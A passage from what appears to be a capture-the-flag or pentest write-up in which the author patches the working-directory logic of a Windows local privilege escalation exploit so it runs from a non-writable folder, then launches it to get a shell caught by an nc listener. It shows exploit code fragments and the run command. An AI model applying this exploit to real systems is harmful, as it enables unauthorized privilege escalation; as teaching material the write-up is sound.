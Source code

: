 

               SessionConfiguration config = {};
                    config.version = 1;
                    config.monitor_pid = ::GetCurrentProcessId();
                    CoCreateGuid(&config.guid);
                    bstr_t path = valid_dir;
                    config.path = path;
                    ICollectionSessionPtr session;



The only thing there that might be off is the `path`? That's set to
`valid_dir`, which is set up at lines 91-96:



               WCHAR valid_dir[MAX_PATH];
                    GetModuleFileName(nullptr, valid_dir, MAX_PATH);
                    WCHAR* p = wcsrchr(valid_dir, L'\\');
                    *p = 0;
                    StringCchCat(valid_dir, MAX_PATH, L"\\etw");
                    CreateDirectory(valid_dir, nullptr);



This code is getting the current path of the running binary, finding the
last `\`, setting that to null (thus terminating the string, leaving the
full folder path without the file name). Then it appends `\etw`, and
creates that directory. Later, when it tries to start the session, it
tries to start in that directory. But what if the user can't create a
directory in the current running dir?



    C:\Users\dummy>mkdir \users\Public\Desktop\test
    Access is denied.



Then the `CreateDirectory` call will fail, and then the session will try
to create in a dir that doesn't exist.

I could solve this two ways. Make sure to drop the binary into a
directory I can write to. For example, I don't get the error if I stage
out of `\users\dummy\appdata\local\temp`. I could also just remove the
creation of the `etw` directory and set `valid_dir` to something that my
user can write to. That's what I did:



               WCHAR valid_dir[MAX_PATH] = L"\\programdata";
                    //GetModuleFileName(nullptr, valid_dir, MAX_PATH);
                    //WCHAR* p = wcsrchr(valid_dir, L'\\');
                    //*p = 0;
                    //StringCchCat(valid_dir, MAX_PATH, L"\\etw");
                    //CreateDirectory(valid_dir, nullptr);



Now on running, it just hangs (as `nc` is listening), and I can connect:



    C:\Users\dummy>\Users\Public\Desktop\ALPC-TaskSched-LPE.exe
